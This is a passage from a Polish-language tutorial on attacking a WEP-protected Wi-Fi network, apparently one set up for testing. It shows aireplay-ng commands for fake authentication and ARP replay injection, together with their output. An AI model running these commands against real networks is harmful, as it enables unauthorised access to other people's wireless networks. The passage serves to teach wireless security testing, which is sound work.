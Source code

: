 ```text
22:54:20 Waiting for beacon frame (BSSID: 5C:4C:A9:6B:EC:CD) on channel 11
22:54:20 Trying broadcast probe requests...
22:54:20 Injection is working!
22:54:22 Found 1 AP
22:54:22 Trying directed probe requests...
22:54:22 5C:4C:A9:6B:EC:CD - channel: 11 - 'WEP-test'
22:54:23 Ping (min/avg/max): 1.217ms/18.078ms/39.319ms Power: -47.10
22:54:23 30/30: 100%
```
 |

Skoro powyższy test wypadł pomyślnie, to można teraz przeprowadzić tzw. „fałszywą asocjację", która -- jeśli się powiedzie -- sprawi, że AP będzie akceptował pakiety wysyłane przez moją kartę sieciową.

```console
adam@debian:~# aireplay-ng -1 0 -e "WEP-test" -a 5C:4C:A9:6B:EC:CD -h 90:f6:52:16:63:23 mon0
```

Poniższy wynik świadczy o powodzeniu wcześniejszych operacji:

```text
22:55:38 Waiting for beacon frame (BSSID: 5C:4C:A9:6B:EC:CD) on channel 11

22:55:38 Sending Authentication Request (Open System) [ACK]
22:55:38 Authentication successful
22:55:38 Sending Association Request [ACK]
22:55:38 Association successful :-) (AID: 1)
```

W tym momencie można już uruchomić polecenie, które rozpocznie nasłuch odpowiedniego pakietu ARP.

```console
adam@debian:~# aireplay-ng -3 -b 5C:4C:A9:6B:EC:CD -h 90:f6:52:16:63:23 mon0
```

Chwila oczekiwania na pojawienie się żądania ARP w sieci, a po jego przechwyceniu rozpoczyna się wstrzykiwane z prędkością 500 pakietów na sekundę:

```text
22:56:46 Waiting for beacon frame (BSSID: 5C:4C:A9:6B:EC:CD) on channel 11
Saving ARP requests in replay_arp-0816-225646.cap
You should also start airodump-ng to capture replies.
Read 938 packets (got 427 ARP requests and 334 ACKs), send 397 packets...(500 pps)
```

Efekt pracy jest od razu widoczny w wynikach prezentowanych przez program przechwytujący jako zwiększenie prędkości przyrostu pakietów do ponad 400/s.

![](../../../../.gitbook/assets/ccd26e26-41e1-46c4-b437-2e05cdae5443/b4015bb9.png)
